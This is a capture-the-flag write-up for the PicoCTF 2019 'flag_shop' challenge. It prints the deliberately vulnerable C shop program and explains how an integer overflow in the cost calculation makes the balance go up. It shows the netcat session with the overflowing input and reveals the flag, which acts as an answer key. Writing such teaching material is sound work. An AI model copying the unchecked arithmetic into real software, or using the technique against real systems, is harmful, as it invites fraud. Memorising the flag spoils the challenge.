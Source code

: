 # PicoCTF 2019 - flag_shop
Author: PinkNoize

General Skills - 300

> There's a flag shop selling stuff, can you buy a flag? Source. Connect with nc 2019shell1.picoctf.com 63894.

## TL;DR

This challenge provides a shop program. Overflow the price of an item to increase your balance and buy the flag.

# Writeup

This challenge provides us with a program that simulates a shop to buy flags. The source is provided and is below.

```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
    setbuf(stdout, NULL);
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){
        
        printf("Welcome to the flag exchange\n");
        printf("We sell flags\n");

        printf("\n1. Check Account Balance\n");
        printf("\n2. Buy Flags\n");
        printf("\n3. Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if(menu == 2){
            printf("Currently for sale\n");
            printf("1. Defintely not the flag Flag\n");
            printf("2. 1337 Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");
                
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }   
                }   
            }
            else if(auction_choice == 2){
                printf("1337 flags cost 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to buy one");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);
                
                if(bid == 1){
                    
                    if(account_balance > 100000){
                        FILE *f = fopen("flag.txt", "r");
                        if(f == NULL){

                            printf("flag not found: please run this on the server\n");
                            exit(0);
                        }
                        char buf[64];
                        fgets(buf, 63, f);
                        printf("YOUR FLAG IS: %s\n", buf);
                        }     
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }
                }
            }
        }
        else{
            con = 1;
        }
    }
    return 0;
}
```

This program prints the flag if we buy a 1337 flag, so our goal is to buy the 1337 flag. We can buy the flag if our account balance is greater than 100000. Unfortunately, our account balance starts at 1100 so we have to find a way to increase our balance. Upon further inspection, our only way to change the account balance is to subtract from it, `account_balance = account_balance - total_cost;`.

The important thing to realize to solve this problem is that all the numbers in this program are of type int, which means they can be positive and negative. It also means that the ints are bounded to INT_MIN and INT_MAX because they use a fixed number of bits, usually 32 or 64. 

Another important thing is the behavior of ints when you go pass INT_MAX and INT_MIN. Adding two ints that result in a number greater than INT_MAX is known as an overflow and is undefined behavior. This happening on the INT_MIN side is an underflow. A majority of integers are represented using [two's complement](https://en.wikipedia.org/wiki/Two%27s_complement) as adding is an identical operation regardless if the numbers are positive or negative.

So how does this apply to our challenge? Going back to the line, `account_balance = account_balance - total_cost;`, if we make total cost negative we can add to our account balance so we can buy the flag. If look further up we can see how we can control `total_cost`.

```c
scanf("%d", &number_flags);
    if(number_flags > 0){
        int total_cost = 0;
        total_cost = 900*number_flags;
```

We can supply a number greater than 0 that is then multiplied by 900. As we can't supply a negative number, we have to provide a number that overflows when multiplied by 900. When the number overflows it should be negative allowing us to add an arbitrary number to our account balance. I chose to use 2^23 (8388608). We can provide this to the program as detailed below.

```
$ nc 2019shell1.picoctf.com 63894
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
8388608

The final cost is: -1040187392

Your current balance after transaction: 1040188492

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_818a7f84}
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
3
```

This gives us the flag, `picoCTF{m0n3y_bag5_818a7f84}`.
